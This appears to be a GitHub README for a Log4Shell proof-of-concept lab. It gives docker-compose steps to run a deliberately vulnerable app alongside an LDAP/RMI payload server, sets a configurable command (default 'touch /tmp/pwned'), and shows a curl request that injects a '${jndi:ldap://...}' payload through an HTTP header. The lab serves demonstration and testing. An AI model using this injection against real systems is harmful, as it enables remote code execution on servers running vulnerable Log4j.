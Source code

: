 log4shell POC

# Steps

1. Build the images
```bash
docker-compose build
```

2. config the command in `.env`, default is `touch /tmp/pwned`

3. Compose!
```bash
docker-compose up -d
```

4. The vuluerable app is up and bind 8080 to the host machine.
To get the ldap payload, please see the log of the container `rmi-server`.

![get_payload](images/get_payload.png)

and make a request, e.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://rmi-server:1389/v1hehl}'
```

5. Check the result, go to the console of the app.

![result](images/result.png)
